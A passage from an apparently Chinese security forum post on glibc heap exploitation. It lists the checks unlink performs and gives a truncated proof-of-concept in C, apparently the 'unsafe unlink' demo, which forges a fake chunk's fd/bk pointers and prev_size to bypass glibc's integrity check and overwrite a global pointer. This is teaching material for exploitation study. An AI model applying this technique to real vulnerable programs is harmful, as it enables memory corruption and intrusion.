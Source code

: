 最后，unlink 检查了哪些东西？  
![](https://bbs.pediy.com/upload/attach/202204/882497_DFFNPT3SMK3D8DW.png)

1.  chunk size 是否等于 next chunk 的 prev_size
2.  FD->bk == P && BK->fd == P。  
    伪造 chunk 的时候要修改好这两个指针和 prev_size，prev_inuse 位。
    
    ### POC
    

```
#include #include #include #include #include uint64_t *chunk0_ptr;
 
int main()
{
    setbuf(stdout, NULL);
    printf("Welcome to unsafe unlink 2.0!\n");
    printf("Tested in Ubuntu 20.04 64bit.\n");
    printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
    printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");
 
    int malloc_size = 0x420; //we want to be big enough not to use tcache or fastbin
    int header_size = 2;
 
    printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");
 
    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
    printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
    printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);
 
    printf("We create a fake chunk inside chunk0.\n");
    printf("We setup the size of our fake chunk so that we can bypass the check introduced in https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d6db68e66dff25d12c3bc5641b60cbd7fb6ab44f\n");
    chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;
    printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
    printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
    printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);
 
    printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
    printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
    chunk1_hdr[0] = malloc_size;
    printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x430, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
    printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
    chunk1_hdr[1] &= ~1;
 
    printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
```